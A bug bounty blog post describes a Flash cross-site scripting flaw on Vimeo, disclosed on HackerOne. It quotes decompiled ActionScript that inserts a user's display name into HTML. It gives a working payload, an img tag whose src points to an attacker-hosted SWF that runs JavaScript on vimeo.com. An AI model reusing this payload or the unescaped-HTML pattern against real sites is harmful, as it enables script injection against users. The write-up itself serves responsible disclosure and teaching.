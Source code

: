 ```yaml
---
layout: post
title: "Flash XSS using images"
---
```

Looking for bugs on [Vimeo](https://hackerone.com/vimeo) I found out that they have an endpoint where they show the videos uploaded by an user using a Flash file. This is the endpoint for my user <https://vimeo.com/hubnut/user/user36690798>.

If you [look at the source](view-source:https://vimeo.com/hubnut/user/user36690798) you notice that there is a `var config` which contains information about the user, including the name (which appears as the value of `display_name`). This variable is loaded by the Flash file <https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf> who puts the value of `display_name` in a `TextField()` using the setter `.text` and because they apply a style sheet to the `TextField()`, the content [is interpreted as HTML](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#text) like using `.htmlText`.

An extract of the code of the class _Carousel_ from the file _hubnut.swf_:
{% highlight js %}
...
this.selectedLabel.styleSheet = _loc2_;
...
// Here "display_name" appears as "_loc4_.owner.display_name"
_loc13_ = _loc13_ + (_loc4_.owner.url?"<h2>by <a href=\"//" + this.data.request.vimeo_url + "/" + _loc4_.owner.url_name + "\" target=\"_blank\">" + _loc4_.owner.display_name + "</a></h2>":"<h2>by <strong>" + _loc4_.owner.display_name + "</strong></h2>");
...
this.selectedLabel.text = _loc13_;
...
{% endhighlight %}

Now, the value of `display_name` is being encoded as HTML entities, but it was not the case 2 months ago (I think that they were escaping as JSON, for instance `/` was being escaped as `\/`). So, it was possible to put HTML code but Flash doesn't interpret every HTML tag as valid. Which one is the widely used for this case? `<a>`, yes, but the problem is that you have a limit of 32 characters for your name in Vimeo and for me wasn't enough to make a valid proof of concept. With this scenario I decided to read [which HTML tags are interpreted by Flash](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#htmlText) and noticed this:

> src: Specifies the URL to an image or SWF file

Sounds promising! Anyway, at first I thought that maybe Flash loaded the file in a sandbox to disallow execution of Javascript code but I continued the testing. I uploaded a Flash file to my server which executed `ExternalInterface.call("alert(document.domain)");` and changed my name to `<img src="//u00f1.xyz/xss.swf">`. Reloaded <https://vimeo.com/hubnut/user/user36690798> and for my surprise `alert(document.domain)` was executed on **vimeo.com** without user interaction.

After successfully execute Javascript using an `<img>` tag, I went to check if it was possible to do the same but in cases where you can provide the URL of an image that is shown using Flash, and I confirmed that it is possible. What I mean is that if, for example, Vimeo allowed to put any URL as the thumbnail of the video, you could provide an URL to a Flash file of yours with Javascript code and it would probably load the file and execute the Javascript code.

You can test the issue using the `<img>` tag [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=true&asObject=false) and the issue when you can provide the URL of an image [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=false&asObject=false).
This code is available at <https://github.com/esevece/esevece.github.io/code/>.  

The report [is publicly disclosed on HackerOne](https://hackerone.com/reports/87577) thanks to Vimeo.
